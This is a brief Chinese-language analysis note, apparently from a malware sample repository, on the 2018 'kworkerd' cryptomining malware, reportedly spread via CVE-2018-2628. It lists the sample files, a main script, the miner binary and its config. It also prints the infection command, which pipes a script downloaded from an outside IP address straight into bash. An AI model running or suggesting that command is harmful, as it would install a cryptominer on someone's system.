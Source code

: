# kworkerd
2018.9 疑似利用CVE-2018-2628作为攻击手段
wget –q –O- http://192.99.142.226:8220/mr.sh | bash -sh

### mr.sh:
开始执行的主要脚本

### xm64:
恶意挖矿本体

### wt.conf
恶意挖矿配置信息
